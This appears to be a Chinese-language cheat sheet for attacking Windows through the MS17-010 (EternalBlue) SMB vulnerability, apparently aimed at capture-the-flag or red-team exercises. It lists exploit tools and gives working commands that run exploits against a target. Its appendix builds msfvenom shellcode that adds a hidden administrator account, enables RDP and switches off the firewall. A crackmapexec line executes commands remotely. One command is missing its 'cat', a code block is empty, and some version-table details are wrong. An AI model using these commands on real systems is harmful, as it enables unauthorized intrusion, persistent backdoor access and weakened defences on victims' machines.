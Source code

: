 # MS17-010争夺战

## 工具介绍

- MSF几个exp

  - ms17_010_eternalblue，利用永恒之蓝漏洞攻击，支持win7及以上系统，容易蓝屏
  - ms17_010_psexec：引入了zzz_exploit的逻辑，可以执行任意代码，需要namepipes，自定义选项丰富，也是最稳定的一种模式，不容易蓝屏，只要有pipe，通杀所有windows系统
  - ms17_010_command：和上面的使用了相同的代码，这个直接执行一个命令，比如添加一个用户

- [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

  - eternal_checker.py，检测目标系统是否有漏洞和显示可用的namepipes（重要）
  - eternalblue_exploit7/8/10.py  注入执行一段shellcode，支持win7-win10，容易蓝屏
  - zzz_exploit.py，通过smb执行任意代码，需要有一个namepipes才能用，支持XP以上系统，基本不会蓝屏

- Eternalblue-Doublepulsar NSA原版工具据说可以自动攻击，含有全套NSA的后门

  主要为两个exe程序，可以集成进MSF，也可以单独运行，可以注入一个dll后门到目标系统运行，

  - Eternalblue-2.2.0.exe，
  - Doublepulsar-1.3.1.exe

## 常规打法

- MSF use exp，set payload，获取meterpreter权限
- 然后添加用户，或者上线CS

## 非常规打法

### 使用漏洞直接开启RDP，并添加用户，关闭防火墙等

```bash
python3 eternalblue_exploit7.py adduser.bin x.x.x.x
```

### 直接上线CS，或者直接开代理

```bash
使用NSA工具 注入CS的dll，或者开socks代理的dll
```

### 创建账号之后使用smb直接读flag文件 不讲武德

```
crackmapexec smb $ip -u administrator -p 112344 -x 'type C:\Users\Administrator\Desktop\flag.txt'
```

## 附录

### 生成shellcode

1. 生成 eternalblue_exploit7.py 可用的 shellcode

   ```bash
   # 1 生成64位的
   $ msfvenom -p windows/x64/exec EXITFUNC=thread CMD='cmd.exe /c net user synb123 "qqNBNo.1" /ADD
   && net localgroup administrators synb123 /ADD && REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall set allprofiles state off' -f raw > msfexecx64.bin
   
   # 2 生成32位的
   $ msfvenom -p windows/exec EXITFUNC=thread CMD='cmd.exe /c net user synb123 "qqNBNo.1" /ADD     && net localgroup administrators synb123 /ADD && REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall set allprofiles state off' -f raw > msfexecx86.bin
   
   # 3 合并shellcode
   $ sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
   $ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
   $ python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
   ```

2. 生成dll

   ```bash
   
   ```

### Windows桌面版和Server版对应关系

| 桌面版 Windows | WinServer | 32/64bit | 内核版本 | 发行日期   |
| -------------- | --------- | -------- | -------- | ---------- |
| XP             | 2003      | 32       | NT 5.2   | 2003-4-24  |
| Vista          | 2008      | 32       | NT 6.0   | 2008-2-27  |
| 7              | 2008 R2   | 64       | NT 6.1   | 2009-10-22 |
| 8              | 2012      | 64       | NT 6.2   | 2012-9-4   |
| 8.1            | 2012 R2   | 64       | NT 6.3   | 2013-10-17 |
| 10/1607        | 2016      | 64       | NT 10.0  | 2016-10-13 |
| 10/1809        | 2019      | 64       | NT 10.0  | 2018-11-13 |